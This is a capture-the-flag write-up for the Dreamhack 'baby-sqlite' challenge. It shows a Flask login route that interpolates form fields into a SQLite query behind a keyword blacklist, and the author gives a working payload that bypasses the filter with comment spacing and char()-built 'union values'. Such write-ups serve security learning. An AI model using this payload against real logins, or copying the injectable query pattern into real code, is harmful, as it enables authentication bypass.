




# baby-sqlite (Dreamhack)

`https://dreamhack.io/wargame/challenges/1`


Given the following source code:

```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
    top = _app_ctx_stack.top
    if not hasattr(top, 'sqlite_db'):
        top.sqlite_db = sqlite3.connect(DATABASE)
    return top.sqlite_db


try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'

    
    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
    top = _app_ctx_stack.top
    if hasattr(top, 'sqlite_db'):
        top.sqlite_db.close()


if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)
```

As we can see there's a blacklist: 
`sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']`

So if we try normal payloads like this, it wouldn't work:





The server also has a level field, which might be an entrypoint. Since the server only have uid and upw params as input, we need to create something that results in:

```sql
SELECT uid FROM users WHERE uid='a' and upw='a' and level=9 union values('admin');
```

We can edit our request using Burp Suite, and make the params as following, and the flag is ours.

```
uid=a&upw=b&level=9/**/union/**/values(char(0x61)||char(0x64)||char(0x6d)||char(0x69)||char(0x6e))
```



